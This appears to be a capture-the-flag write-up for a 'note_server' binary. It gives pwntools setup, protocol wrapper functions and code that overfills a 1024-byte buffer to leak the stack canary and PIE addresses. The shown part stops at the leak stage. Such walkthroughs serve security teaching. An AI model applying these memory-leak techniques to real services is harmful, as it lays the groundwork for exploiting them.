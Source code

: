 ### Setup

First, some basic setup:

```python
from pwn import *

elf = context.binary = ELF('./note_server')

if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = process('127.0.0.1', 5002)      # for the portfwd
else:
    libc = elf.libc
    p = process('127.0.0.1', 5001)

### Wrapper Functions
def write(data):
    if isinstance(data, str):
        data = data.encode()

    p.send(b'\x01' + p8(len(data)) + data)


def copy(start=0, length=100):
    p.send(b'\x02' + p16(start) + p8(length))


def read():
    p.send(b'\x03')
    return p.clean(0.5)
```

### Leaking Canary and PIE

Now let's try writing 3 times then copying a massive amount.

```python
write('A' * 0xff)
write('B' * 0xff)
write('C' * 0xff)
copy(start=0xff*3, length=250)
print(read())
```

Well, we've leaked significantly more than the stuff we wrote, that's for sure. Let's _completely_ fill up the buffer, so we can work with the stuff after it. The buffer size is `1024` bytes, plus another 8 for the saved RBP.

```python
write('A' * 0xff)       # 255
write('B' * 0xff)       # 510
write('C' * 0xff)       # 765
write('D' * 0xff)       # 1020
write('E' * 4)          # 1024
copy(start=1024, length=32)

leaks = read()[1024:]

addrs = [u64(leaks[addr:addr+8]) for addr in range(0, len(leaks), 8)]
[print(hex(addr)) for addr in addrs]
```
